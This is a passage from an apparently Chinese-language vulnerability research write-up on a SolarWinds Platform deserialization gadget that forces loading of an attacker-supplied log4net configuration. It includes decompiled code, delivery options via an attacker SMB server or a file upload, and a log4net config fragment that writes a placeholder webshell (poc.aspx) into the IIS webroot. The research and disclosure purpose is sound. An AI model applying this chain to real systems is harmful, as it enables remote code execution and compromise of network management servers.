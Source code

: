 ```plain
                try 
                { 
                    XmlDocument xmlDocument = new XmlDocument(); 
                    xmlDocument.Load(fileInfo.FullName); // [4] 
                    XmlNodeList elementsByTagName =  
xmlDocument.GetElementsByTagName("log4net"); // [5] 
                    if (elementsByTagName != null && elementsByTagName.Count > 0) 
                    { 
                        configurations = Log._configurations; 
                        lock (configurations) 
                        { 
                            if (!Log._configurations.Contains(fileInfo.FullName)) 
                            { 
                                XmlConfigurator.ConfigureAndWatch(fileInfo); //  
[6] 
                                Log._configurations.Add(fileInfo.FullName); 
                            } 
                        } 
                    } 
                } 
                catch 
                { 
                } 
            } 
        } 
    } 
}
```

代码段 32 Log.Configure 方法

在\[1\]，代码通过配置文件列表进行迭代。该列表将包含：由输入参数`configFile`定义的路径以及当前进程已加载的其他配置文件。

在\[2\]，从当前路径创建`FileInfo`对象。

在\[3\]，代码检查当前循环迭代中的文件是否已加载。如果是，则调用`continue`，配置文件将不会被加载。如果文件尚未加载，代码流程继续。

在\[4\]，使用`XmlDocument.Load`方法加载配置文件。

在\[5\]，从文件中提取`log4net`标签。

在\[6\]，配置正在加载。

名为 log4net 的标签表明，实际上正在加载新的 log4net 配置（log4net 可以被视为 Java 的 log4j 的等同物）。总的来说，具有反序列化`SolarWinds.IPAM.Storage.Credentials.CredentialInitializer`类的可能性的攻击者可以强制 SolarWinds 进程从文件中加载新的 log4net 配置。

这似乎是一个非常有趣的反序列化小工具，但我们必须考虑如何交付这个文件。我们有两个主要选项：

a) 我们可以提供 UNC 路径，直接从我们的 SMB 服务器加载配置文件。虽然外部 SMB 流量可以被过滤掉，但这样的攻击方法通常在作为位于内部网络的攻击者时有效。由于 SolarWinds Platform 很少暴露在互联网上，我认为这种攻击场景适用于大多数 SolarWinds 实例。

b) 它可以与文件写入基元链接。请注意，路径、扩展名和文件名都未经任何验证，因此我们可以使用合法的文件写入功能（如图像上传）来传递我们的配置文件。

由于 log4net 正在处理日志文件，我开始考虑文件上传基元。我查看了 log4net，找到了以下配置：

```plain
<log4net> 
    ... 
     <appender name="RollingLogFileAppender" 
type="log4net.Appender.RollingFileAppender"> 
        <file value="C:\inetpub\wwwroot\poc.aspx" /> [1] 
        <encoding value="utf-8" /> 
        <appendToFile value="false" /> 
        <rollingStyle value="Size" /> 
        <maxSizeRollBackups value="5" /> 
        <maximumFileSize value="5MB" /> 
        <layout type="log4net.Layout.PatternLayout"> 
        <header type="log4net.Util.PatternString" value="webshell-here" /> [2] 
        <conversionPattern value="" /> [3] 
```